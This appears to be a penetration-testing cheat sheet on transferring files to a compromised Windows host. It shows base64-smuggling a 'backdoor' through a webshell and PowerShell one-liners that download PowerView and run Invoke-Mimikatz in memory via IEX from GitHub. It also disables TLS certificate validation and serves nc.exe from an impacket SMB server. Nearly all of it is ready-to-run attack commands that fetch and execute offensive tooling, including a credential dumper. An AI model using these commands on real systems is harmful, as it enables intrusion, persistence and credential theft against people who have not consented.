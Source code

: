 
## 1) PowerShell Base64 Encode & Decode
if you have access to terminal using a webshell you can 


- base64 a file that you want to transfer
```bash
$ cat backdoor| base64 -w 0 ; echo
YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo=


$ md5sum shell
2eebc05b20651f70efb2d195bbdaf2c2  shell
```


- paste it in powershell
```powershell
PS C:\user> [IO.File]::WriteAllBytes("C:\Users\public\Desktop\testing\backdoor",[Convert]::FromBase64String("YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo="))


PS C:\user> Get-FileHash .\backdoor -Algorithm MD5

Algorithm       Hash                                                                   Path                                 
---------       ----                                                                   ----                                 
MD5             2EEBC05B20651F70EFB2D195BBDAF2C2  
```



**Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

## 2) PowerShell HTTP Downloads

### 1) PowerShell DownloadFile Method
```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

### 2) PowerShell DownloadString - Fileless Method
- `IEX` It is a cmdlet used to evaluate or execute a string as a PowerShell command.
```powershell
PS C:\user> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

PS C:\user> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### 3) PowerShell Invoke-WebRequest
```powershell
PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -UseBasicParsing | IEX
```

if the certificate is not trusted. We can bypass that error with the following command:
```powershell
PS C:\user> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
## 3) PowerShell SMB Downloads

```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare

sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare -user test -password test
```

```powershell
PS C:\user> copy \\192.168.220.133\share\nc.exe


PS C:\user> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

PS C:\user> copy n:\nc.exe
        1 file(s) copied.
```
